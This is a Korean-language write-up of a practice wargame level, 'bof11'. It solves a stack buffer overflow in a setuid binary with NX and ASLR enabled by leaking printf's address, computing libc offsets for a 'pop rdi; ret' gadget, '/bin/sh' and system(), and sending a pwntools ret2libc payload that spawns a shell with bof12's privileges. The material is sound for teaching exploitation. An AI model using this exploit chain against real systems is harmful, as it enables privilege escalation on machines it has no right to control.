# bof11 풀이

## 개요

현재 bof10의 id로 접속한 상태이고, bof11의 권한을 얻고싶은 상황이다.

  
bof11로 home directory를 보면 <code>bof11</code>, <code>bof11.c</code> 파일과 bof12의 비밀번호가 있는 <code>bof12.pw</code> 파일이 있다.  
<code>bof12.pw</code>를 읽기 위해서는 bof12의 권한이 필요한데, 마침 <code>bof11</code>파일이 bof12권한으로 실행되므로 이 프로그램을 이용해보도록 하자.

## 프로그램 분석  

file 명령을 통해 bof11파일을 분석해보니 x86_64 프로그램이다.  
  
gdb의 vmmap 명령으로 실행 권한을 확인해본 결과 NXbit가 적용되어 stack에 실행권한이 없다. 따라서 RTL방식으로 접근해야 한다.  
  
또한 ASLR적용 여부를 확인해본 결과 적용이 돼있어 gdb로 구한 주소를 구하지 못하기 때문에, 알 수 있는 하나의 주소를 기준으로 접근해야 한다.

## 소스코드
   
코드를 분석해보면 <code>vuln()</code> 함수로 들어가 <code>printf</code> 의 주소를 출력하고 <code>fgets</code>로 입력을 받아 <code>buf</code>에 저장하고 <code>buf</code>의 내용을 출력한다.  

이 때 <code>vuln</code>함수로 들어간다는 점을 이용해 [bof9](./../../day8/)와 같이 아래의 payload를 만들어 넣어주면 될 것 같다. 
|| 쓰레기값 | return할 주소 | "/bin/sh" 주소 | system 함수 주소|
|:---:|:---:|:---:|:---:|:---:|
|의미| 없음 | pop rdi ; ret | "/bin/sh" | system() |
|값|x|??|??|??|
| 크기 | ?? | 8byte | 8byte | 8byte |  
다만, 이번에는 절대주소가 아닌 printf를 기준으로 상대주소를 넣어주어야 하기 때문에 poc 코드로 만들어보자.

## buf와 return address 사이의 거리  
gdb를 이용해 buf와 return address가 저장된 곳의 거리를 구해보도록 하자  

1. return address 저장 주소  
  
<code>vuln</code>함수에 들어오면 가장 먼저 return address를 stack에 저장한다. 이 값은 $rsp에 저장되어 있으므로 $rsp의 값을 읽었다.

2. buf 주소  
  
buf의 주소는 아래에서 <code>fgets</code>에서 <code>buf</code>의 주소를 사용하므로, 이 때 $rax를 보면 알 수 있다.  

3. buf - innocent 사이의 거리  
    - return address가 저장된 주소 0x7ffe631b2b68 
    - buf 주소 0x7ffe631b2b56  

    둘의 차이를 계산해보면 18byte 차이가 난다.  

## return address 조작하기  
우리가 이제 해야할 일은 return address에 <code>pop rdi ; ret</code> 가젯의 주소를 넣는 것이다.  

먼저 ROPgadget.py 프로그램으로 libc에서의 <code>pop rdi ; ret</code>의 주소를 찾았다. 위의 주소들 중 정확하게 맞는 0x21102일 것이다.  
  
그리고 gdb의 <code>vmmap</code>명령으로 실행권한이 있는 libc의 주소를 찾았다.  

따라서 최종적으로 둘을 더한 값이 return해야 할 <code>pop rdi ; ret</code>의 주소이며, 그 값은 위처럼 구한 <code>0x7f2feb729102</code> 이다.

## return 이후 payload  
현재 아래와 같이 구해졌다.
|| 쓰레기값 | return할 주소 | "/bin/sh" 주소 | system 함수 주소|printf 주소|
|:---:|:---:|:---:|:---:|:---:|:---:|
|의미| 없음 | pop rdi ; ret | "/bin/sh" | system() | printf() |
|현재 절대주소||0x7f2feb729102|??|??|??|
|값|x|??|??|??|??|
| 크기 | 18byte | 8byte | 8byte | 8byte ||

나머지를 더 구해보자

1. /bin/sh 주소  
      
    <code>/bin/sh</code>의 주소는 gdb의 <code>search-pattern</code> 명령을 이용해 간단하게 찾았다.
2. system 함수 주소
      
    <code>system</code> 함수의 주소도 gdb의 <code>p</code> 명령을 이용해 간단하게 찾았다.
3. printf 함수 주소  
      
    마지막으로 <code>printf</code> 함수의 주소도 gdb의 <code>p</code> 명령을 이용해 간단하게 찾았다.

## payload 만들기  
현재까지 구한 절대 주소를 이용해 printf의 주소로 상대 주소를 구하고, runtime 중에 구할 수 있는 printf의 주소를 참조한 주소를 값으로 만들어주어야 한다.  
 - return할 주소(pop rdi ; ret 가젯): 0x7f2feb729102 - 0x7f2feb75d800 = -214782  
 - "/bin/sh" 주소 : 0x7f2feb894d57 - 0x7f2feb75d800 = 1275223  
 - system함수 주소 : 0x7f2feb74d390 - 0x7f2feb75d800 = -66672

   
따라서 현재 다음과 같이 구했다.  
|| 쓰레기값 | return할 주소 | "/bin/sh" 주소 | system 함수 주소|printf 주소|
|:---:|:---:|:---:|:---:|:---:|:---:|
|의미| 없음 | pop rdi ; ret | "/bin/sh" | system() | printf() |
|현재 절대주소||0x7f2feb729102|0x7f2feb894d57|0x7f2feb74d390|0x7f2feb75d800|
|값|| x - 214782 | x + 1275223 | x - 66672 | x |
| 크기 | 18byte | 8byte | 8byte | 8byte ||

## poc 코드 제작
지금까지 구한 값을 가지고 pwn tool을 이용해 python poc 코드를 만들어보자.
```python
from pwn import *

p = process('./bof11') # ./bof11 파일을 실행

p.recvuntil('printf() address : ') # 해당 문자열이 출력될 때 까지
printf_addr = p.recvuntil('\n') # 개행문자까지 receive (printf의 주솟값이 된다)
printf_addr = int(printf_addr, 16) # hexadecimal byte로 저장

# 각 payload의 주솟값
poprdi = printf_addr + (-214782)
binsh = printf_addr + (1275223)
sys_addr = printf_addr + (-66672)
distance_to_returnAddr = 18

# payload 작성
payload = str.encode("A" * distance_to_returnAddr)
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(sys_addr)
p.send(payload)

p.interactive() # shell 실행시 interact
```

## 성공
  
  
위처럼 payload를 넘겨주어 bof12의 권한을 탈취하는데 성공했다!